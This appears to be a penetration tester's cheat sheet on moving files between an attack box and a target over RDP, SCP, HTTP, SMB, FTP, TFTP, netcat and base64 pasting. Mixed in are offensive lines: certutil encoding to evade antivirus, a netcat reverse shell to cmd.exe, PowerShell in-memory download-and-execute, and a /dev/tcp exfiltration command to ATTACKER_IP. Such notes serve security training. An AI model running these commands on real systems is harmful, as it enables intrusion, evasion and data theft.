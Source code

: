     **Considerations: file size (executable packing); architecture (32 vs 64 bit); static vs dynamic libraries; EOL conversion (switch in Notepad++)
      Windows->Unix fix newlines:  sed 's/\r$//' linenum.sh > linenum2.sh

    Standard Protocols:
        RDP/Copy File:
            rdesktop -g 1600x800 -r disk:tmp=/usr/share/windows-binaries 192.168.30.30 -u username -p /dynamic-resolution
            xfreerdp /u:admin /p:password /cert:ignore /v:10.10.138.3 /workarea /drive:/localdir,share /dynamic-resolution +clipboard
            Windows connect:  mstsc /v:1.2.3.4
            File Copy/Paste:  server allows by default, client doesn't
                To Enable: Under Options > Local Resources, you need to click the More button and put a check mark next to Drives.
        SCP: Push or Pull
            Linux/Solaris: scp
            Windows: WinSCP/pscp/scp
            Upload:  scp file.txt kali@192.168.1.6:/tmp
            Download:  scp kali@192.168.1.6:/tmp/file.txt .
        HTTP:
            Linux:
                Server:  python -m SimpleHTTPServer [port]  \\  python -m http.server [port]  \\  php -S 0.0.0.0:8080
                    With Upload Option:  https://gist.github.com/UniIsland/3346170
                    HTTPS:
                        openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
                        sudo python3 HTTPSserver.py:
                           import http.server, ssl
                           server_address = ('0.0.0.0', 443)
                           httpd = http.server.HTTPServer(server_address, http.server.SimpleHTTPRequestHandler)
                           httpd.socket = ssl.wrap_socket(httpd.socket, server_side=True, certfile='localhost.pem', ssl_version=ssl.PROTOCOL_TLS)
                           httpd.serve_forever()
                Download:  wget http://192...:8000/file [-O /tmp/file]  \\  curl http://192...:8000/file -o /tmp/file
                    Bash Script Manual Curl:  https://www.hackingdream.net/2019/12/file-transfer-cheat-sheet-for-pentesters-oscp.html
                    Or in browser: http://...
                    Python:  python -c ‘from urllib import urlretrieve; urlretrieve(“http://ip-addr:port/file”, “output_file”)’;  \\  python3 -c ‘from urllib.request import urlretrieve; urlretrieve(“http://ip-addr:port/file”, “output_file”)’
            Windows:
                Server:  
                    python -m SimpleHTTPServer [port]  \\  python -m http.server [port]
                    Or if http already running: move file to web dir under C:\ ; *make sure it has an extension
                VBScript method (XP,2003): https://hackersinterview.com/oscp/oscp-cheatsheet-windows-file-transfer-techniques/
                Certutil:  certutil.exe -urlcache -split -f "http://192.168.1.2/exploit.exe" [outfile]
                    Avoid antivirus w/ Base64 encode:
                        certutil.exe -encode [inputFileName.exe] [encodedOutputFileName.txt]
                        certutil.exe -urlcache -split -f "http://[Attack box IP]/nc.txt" nc.txt
                        certutil.exe -decode nc.txt nc.exe
                        test it: nc.exe [Attack box IP] 5555 -e cmd.exe
                Bitsadmin:  bitsadmin /transfer job https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe C:\Temp\putty.exe
                Curl:  curl http://192.168.1.2/putty.exe -o putty.exe
                Or in browser: http://...
                Python download method above^^
                Powershell:
                    Interactive:
                        Download:  powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2/exploit.exe', 'exploit.exe')
                            Or:  powershell.exe iwr -uri 192.168.1.2/putty.exe -o C:\Temp\putty.exe
                                 powershell -c "Invoke-WebRequest -Uri http://192.168.119.186/nc64.exe nc64.exe"
                                 powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.119.186/winPEASany.exe','C:\Users\alice\Desktop\winPEASany.exe')"
                        Download & Execute w/o Saving:  powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.2/test.ps1')
                            Or:  cmd /c echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.119.186/Sherlock.ps1') | powershell -noprofile -
                    Non-Interactive (script method):
                        echo $storageDir = $pwd > wget.ps1; echo $webclient = New-Object System.Net.WebClient >>wget.ps1; echo $url = "http://192.168.1.2/exploit.exe" >>wget.ps1; echo $file = "exploit1-ouput.exe" >>wget.ps1; echo $webclient.DownloadFile($url,$file) >>wget.ps1
                        powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
                    Newer PS Versions:  wget http://192.168.1.2/putty.exe -OutFile putty.exe  \\  powershell.exe wget http://192.168.1.2/putty.exe -OutFile putty.exe
        SMB:
            Server:  python /usr/share/pyshared/impacket/smbserver.py <sharename> <sharepath> [-smb2support]
                Windows:  net share Tools=C:\tools /grant:everyone,FULL  ;  Confirm: net share
            Client:
                Windows:
                    View Remote Shares:  net view \\computername /all [/USER:Administrator  \\  /USER:domain\user]
                    Download:  copy \\192.168.1.2\sharename\exploit.exe .
                    Upload:  copy nc2.exe \\10.10.14.17\SHARE\nc2.exe
                    Connect:  net use [K:] \\IP\ShareName [/USER:Administrator  \\  /USER:domain\user]
                        Disconnect:  net use /d \\[host]\[share name]  \\  net use /d k:
                    *Execute w/o Downloading:  \\10.10.14.18\SHARE\Chimichurri.exe 10.10.14.11 4445
                Linux:
                    View Shares:  smbclient -L 192.168.1.21 [-U raj%pass]
                    Connect:  smbclient //192.168.1.21/share [-U raj%pass]
                    Download one file:  smbget smb://192.168.11.10/Tools/abc.exe -u administrator -p password -o /tmp/abc.exe
                        Download recursively:  smbclient //192.168.11.10/Tools -U administrator%password -c 'prompt OFF;recurse ON;mget *'
        FTP:
            Server (Linux):  pip install pyftpdlib; python3 -m pyftpdlib -p 21 -u jeenali -P 123
            Client:
                Connect:  ftp <IP> [PORT]  \\  Browser:  ftp://...  \\  curl or wget [-r] ftp://...
                Download:  get ...
                Upload:  put ...
                Other commands:  help; binary; passive; ls; cd
                Non-Interactive Script Method (Client):
                    echo open 192.168.1.101 21> ftp.txt; echo USER uname>> ftp.txt; echo mysecretpassword>> ftp.txt; echo bin>> ftp.txt; echo GET wget.exe>> ftp.txt; echo bye>> ftp.txt
                    ftp -v -n -s:ftp.txt
        TFTP (Windows XP, 2003):
            Server (Linux):
          apt update && sudo apt install atftp; mkdir /tftp; chown nobody: /tftp; atftpd --daemon --port 69 /tftp; /etc/init.d/atftpd restart
          Or:  perl tftpd.pl <fileToShare>   (script from PW tools/cut-paste)
          Or:  sudo msfconsole; use auxiliary/server/tftp; set srvhost 192.168.1.2; set tftproot /tmp; exploit
            Client:
                Download:  tftp -i 192.168.1.2 GET file2.txt
                Upload:  tftp -i 192.168.1.2 PUT file1.txt
        Other Windows Methods:
            Meterpreter:  download file.txt /root/Desktop/  ;  upload...
            WinRM:  upload ...
            Powershell Remoting:  Copy-Item -ToSession $appsrv1 -Pathfile_to_copy.exe -Destination C:\Users\appadmin\Downloads
            Rcp

    Non-Standard Protocols:
        ***Confirm file hashes:
            Unix: md5sum
            Windows: certutil -hashfile <file> [MD5|SHA1], or fciv for XP
        Netcat:
            nc –lvp 8001 > out.txt  ;  nc HOST_IP 8001 < in.txt  \\  nc –lvp 8001 < in.txt  ;  nc HOST_IP 8001 > out.txt
            nc.exe –l -p 4444 < in.txt  ;  nc.exe -w 1 127.0.0.1 4444 > out.txt
        Socat:
            socat TCP4-LISTEN:443,fork file:file.txt
            socat TCP4:192.168.1.2:443 file:file.txt,create
        *No Tool on Linux Target (Target>Ops transfer):
            nc -nvlp 9001 > backup.7z  ;  cat file.7z > /dev/tcp/ATTACKER_IP/9001
        Terminal Window (copy/paste):
            Base64 encoding:
                Linux: base64 <file> > out64  \\  openssl enc -base64 <file> > out64
                Windows:  certutil -encode [infile] [outfile]  \\  PS methods (check pw dir)
            findstr /v CERTIFICATE outfile > removed_headers
            Copy:  type outfile|clip
                ****Both:  python -m base64 [infile] > [outfile]
            Paste:
                Linux:  cat > out.64
                Windows:  more > out.64
          Teraterm Slower Paste:  Setup > Additional Settings > Copy and Paste, "Paste delay per line">150ms
            Decoding:
                Linux: base64 -d <file> > out  \\  openssl enc -base64 -d <file> > out
            From Windows: ***remove header/footer first, and use -i
                Windows:  certutil -decode [infile] [outfile]  \\  powershell options
                Both:  python -m base64 -d [infile] > [outfile]

    Windows Tips:
        Finding world-writeable directories:  Get-ChildItem -Recurse | Get-Acl | out-string -stream | select-string -pattern "everyone"
            or in cmd: mkdir test (in C:\); or look carefully in Users for hidden writeable dirs.
        Limited Display:
            SCROLL DISPLAY FIRST 1110 (max) OF LINES OF FILE:    powershell -command "& {Get-Content output.txt -TotalCount 1110}"
            Last # of lines:   powershell -command "& {Get-Content output.txt | Select-Object -last 1110}"
            Total number of lines in file:  type out | find /c /v "" 
